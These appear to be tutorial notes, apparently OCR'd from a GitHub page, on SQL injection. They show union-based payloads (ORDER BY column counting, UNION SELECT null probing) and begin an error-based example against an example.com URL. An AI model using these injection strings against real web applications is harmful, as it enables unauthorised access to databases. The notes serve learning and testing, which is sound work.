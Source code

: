 **Exploiting Union Based**

Detecting number of columns

> Use Order/Group by

```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

UNION SELECT

```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

**Extract database names, table names and column names**

https://portswigger.net/web-security/sql-injection/cheat-sheet

![Alt text](image-6.png)

**Exploiting Error based**

In error-based SQL injection, the attacker tries to insert a malicious query with the goal of receiving an error message that provides sensitive information about the database.

Example: I add a single quote after 123

```
https://example.com/index.php?name=123’
```
